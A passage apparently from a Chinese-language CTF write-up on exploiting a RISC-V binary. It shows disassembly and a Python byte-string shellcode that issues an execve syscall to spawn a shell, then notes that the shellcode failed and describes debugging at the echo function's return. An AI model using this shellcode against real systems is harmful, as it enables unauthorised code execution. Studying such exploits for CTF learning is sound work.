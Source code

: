 ```python
|           0x000100d6      9387f732       addi a5, a5, 815


|           0x000100da      2332f4fe       sd a5, -28(s0)


|           0x000100de      930704fe       addi a5, s0, -32


|           0x000100e2      0146           li a2, 0


|           0x000100e4      8145           li a1, 0


|           0x000100e6      3e85           mv a0, a5


|           0x000100e8      9308d00d       li a7, 221


|           0x000100ec      93063007       li a3, 115


|           0x000100f0      230ed1ee       sb a3, -260(sp)


|           0x000100f4      9306e1ef       addi a3, sp, -258


\           0x000100f8      6780e6ff       jr -2(a3)

'''

shellcode =  b'\x01\x11\x06\xec\x22\xe8\x13\x04'
shellcode += b'\x21\x02\xb7\x67\x69\x6e\x93\x87'
shellcode += b'\xf7\x22\x23\x30\xf4\xfe\xb7\x77'
shellcode += b'\x68\x10\x33\x48\x08\x01\x05\x08'
shellcode += b'\x72\x08\xb3\x87\x07\x41\x93\x87'
shellcode += b'\xf7\x32\x23\x32\xf4\xfe\x93\x07'
shellcode += b'\x04\xfe\x01\x46\x81\x45\x3e\x85'
shellcode += b'\x93\x08\xd0\x0d\x93\x06\x30\x07'
shellcode += b'\x23\x0e\xd1\xee\x93\x06\xe1\xef'
shellcode += b'\x67\x80\xe6\xff'
```

但是可能是由于在栈中操作的原因没有成功执行

动调在echo函数的ret处下断点

可以发现此时寄存器的情况如下
